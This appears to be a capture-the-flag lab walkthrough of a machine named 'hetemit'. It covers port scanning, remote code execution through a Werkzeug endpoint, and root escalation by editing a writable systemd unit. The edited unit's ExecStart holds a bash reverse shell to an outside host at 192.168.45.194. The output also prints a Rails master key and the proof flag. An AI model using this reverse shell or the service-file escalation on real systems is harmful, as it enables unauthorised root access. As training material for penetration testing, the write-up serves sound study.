






# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.151.117 -t full

Running a full scan on 192.168.151.117

PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.194
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Unix
```

# 21 FTP

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ ftp 192.168.151.117                                 
Connected to 192.168.151.117.
220 (vsFTPd 3.0.3)
Name (192.168.151.117:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22087|)
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
421 Service not available, user interrupt. Connection closed.
ftp> exit

```

FTP allow login with anonymous, but can't running any commands.

# 80 HTTP



Port 80 just a `Apache` default web page, can't get anything.

# 18000 Protomba

Try to create a user but we didn't have Invite code, so create failed.


# 50000 


It shows 2 paths when we visit port 50000



Generate shows a example .



Verify just shows code. But we can try to running some calculation, such as program language.



As you can see the we post a data `code=2*2`, then the server response the `4`, that means there might has RCE. Also the `Werkzeug` is developed by python, so can running with `os.system` if that's work.



Yep! It's work.



# PE

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                 
Sudo version 1.8.29 

╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                         
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin


╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service
/etc/systemd/system/pythonapp.service could be executing some relative path
/etc/systemd/system/railsapp.service could be executing some relative path


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                   
tcp        0      0 0.0.0.0:18000           0.0.0.0:*               LISTEN      1409/puma 4.3.6 (tc                                             
tcp        0      0 0.0.0.0:50000           0.0.0.0:*               LISTEN      1410/python3.6      
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
tcp6       0      0 :::5355                 :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -     

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                
Matching Defaults entries for cmeeks on hetemit:                                                                                                
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff


╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                 

╔══════════╣ Users with console
cmeeks:x:1000:1000::/home/cmeeks:/bin/bash                                                                                                      
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                          
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
uid=11(operator) gid=0(root) groups=0(root)
uid=12(games) gid=100(users) groups=100(users)
uid=14(ftp) gid=50(ftp) groups=50(ftp)
uid=193(systemd-resolve) gid=193(systemd-resolve) groups=193(systemd-resolve)
uid=1(bin) gid=1(bin) groups=1(bin)
uid=26(postgres) gid=26(postgres) groups=26(postgres)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m)
uid=3(adm) gid=4(adm) groups=4(adm)
uid=48(apache) gid=48(apache) groups=48(apache)
uid=4(lp) gid=7(lp) groups=7(lp)
uid=59(tss) gid=59(tss) groups=59(tss)
uid=5(sync) gid=0(root) groups=0(root)
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
uid=6(shutdown) gid=0(root) groups=0(root)
uid=74(sshd) gid=74(sshd) groups=74(sshd)
uid=7(halt) gid=0(root) groups=0(root)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=991(unbound) gid=987(unbound) groups=987(unbound)
uid=992(rngd) gid=988(rngd) groups=988(rngd)
uid=993(chrony) gid=989(chrony) groups=989(chrony)
uid=994(sssd) gid=990(sssd) groups=990(sssd)
uid=995(cockpit-wsinstance) gid=992(cockpit-wsinstance) groups=992(cockpit-wsinstance)
uid=996(cockpit-ws) gid=993(cockpit-ws) groups=993(cockpit-ws)
uid=997(libstoragemgmt) gid=995(libstoragemgmt) groups=995(libstoragemgmt)
uid=998(polkitd) gid=996(polkitd) groups=996(polkitd)
uid=999(systemd-coredump) gid=997(systemd-coredump) groups=997(systemd-coredump)

╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                 
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/bin/make
/usr/bin/nc
/usr/bin/ncat
/usr/bin/perl
/usr/sbin/ping
/usr/bin/python3
/usr/bin/python3.6
/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ruby
/usr/bin/socat
/usr/bin/sudo
/usr/bin/wget


╔══════════╣ Analyzing PostgreSQL Files (limit 70)
Version: psql (PostgreSQL) 10.14                                                                                                                


-rw-r--r-- 1 root root 268 Sep 15  2020 /etc/postgresql-setup/upgrade/postgresql.conf
id              postgresql
major           9.2
data_default    /var/pgsql/data
package         postgresql-upgrade
engine          /usr/lib64/pgsql/postgresql-9.2/bin
description     "Upgrade data from system PostgreSQL version (PostgreSQL 9.2)"
redhat_sockets_hack no
-rw-r--r-- 1 root root 47 Sep 15  2020 /usr/lib/tmpfiles.d/postgresql.conf
d /var/run/postgresql 0755 postgres postgres -


╔══════════╣ Analyzing Jenkins Files (limit 70)
-rw------- 1 cmeeks cmeeks 32 Nov 12  2020 /home/cmeeks/register_hetemit/config/master.key                                                      
13d501513ae570e4d2e50edfa97de275

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d                                                 
You have write privileges over /etc/systemd/system/pythonapp.service
```

That say user `cmeeks` has permission to change the `pythonapp.service`, check the service configuration.

```bash
[cmeeks@hetemit tmp]$ cat /etc/systemd/system/pythonapp.service
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
[cmeeks@hetemit tmp]$ 

```

In here we can see the `ExecStart` is a command that we can running, and the user we also need to modify.

```bash
[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.194/18000 0>&1'
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure
```

Then running `sudo /sbin/reboot`, wait a minute, will get root rev shell.

```bash
└─$ nc -nlvp 18000
listening on [any] 18000 ...
connect to [192.168.45.194] from (UNKNOWN) [192.168.151.117] 35558
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
[root@hetemit restjson_hetemit]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@hetemit restjson_hetemit]# cd /root 
[root@hetemit ~]# ls
anaconda-ks.cfg
proof.txt
[root@hetemit ~]# cat proof.txt

5746a9a08b069e01dff4670af94c88a0
[root@hetemit ~]# 